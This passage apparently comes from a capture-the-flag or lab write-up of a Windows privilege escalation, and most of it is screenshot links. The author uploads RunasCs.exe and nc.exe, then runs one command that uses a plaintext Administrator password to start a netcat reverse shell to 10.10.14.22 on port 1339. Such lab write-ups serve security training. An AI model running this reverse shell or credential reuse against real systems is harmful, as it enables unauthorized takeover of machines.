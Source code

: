 ![](./IMG/37.png)

> So far, I got a password, but I'm not sure who belongs it.
> And I don't know what kind of service I can use to login by this password.
> So, I check the video writeup and I found this tool 

- [RunasCs](https://github.com/antonioCoco/RunasCs)

> Upload RunasCs.exe

![](./IMG/39.png)

> Upload nc.exe

![](./IMG/40.png)

> Using RunasCS to execute nc as Administrator

```
.\RunasCs.exe Administrator s67u84zKq8IXw ".\nc.exe 10.10.14.22 1339 -e powershell"
```

![](./IMG/41.png)

> Got system administrator permission

![](./IMG/42.png)
